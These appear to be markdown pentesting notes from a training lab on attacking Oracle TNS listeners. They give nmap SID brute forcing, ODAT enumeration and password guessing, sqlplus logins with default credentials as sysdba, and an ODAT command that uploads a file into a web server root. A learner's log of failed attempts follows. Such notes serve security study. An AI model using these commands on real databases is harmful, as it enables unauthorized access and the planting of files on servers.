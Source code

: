 Oracle TNS (Transparent Network Substrate) is used to **connect** a client (like a programmer's computer) to an Oracle database **over a network**.


| PORT | 1521 |
| ---- | ---- |
```sh
sudo nmap -p1521 -sV 10.129.204.235 --open
```

## Nmap - SID Bruteforcing

```sh
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

## ODAT

Info gathering tool.
```sh
./odat.py all -s 10.129.204.235
```

## SQLplus - Log In

```sh
sqlplus scott/tiger@10.129.204.235/XE
```
If you come across the following error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, please execute the below, taken from [here](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared).

```sh
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
## Oracle RDBMS - Database Enumeration

```sh
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```


# Default Paths 
| **OS**  | **Path**             |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |


## Oracle RDBMS - File Upload

```sh
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

# Optional 
APPROACH
1. I have successfully enumerated the SID `XE` of the database using NMAP -  
    `sudo nmap -p1521 -sV 10.129.x.x --open --script oracle-sid-brute`
    
2. After that I tried enumerating with `odatpy` to get some more information, looking for credentials -  
    `./odat.py passwordguesser -p 1521 -d XE -s 10.129.x.x`  
    `./odat.py all -s 10.129.x.x -p 1521 -d XE`  
    Both of these come back with no further information.
    
3. From there I tried signing in using some default usernames and passwords with `sqlplus`  
    `sqlplus scott/tiger@10.129.x.x/XE;`  
    `sqlplus DBSNMP/DBSNMP@10.129.x.x/XE;`  
    Any combination I have tried here has not been able to authenticate.
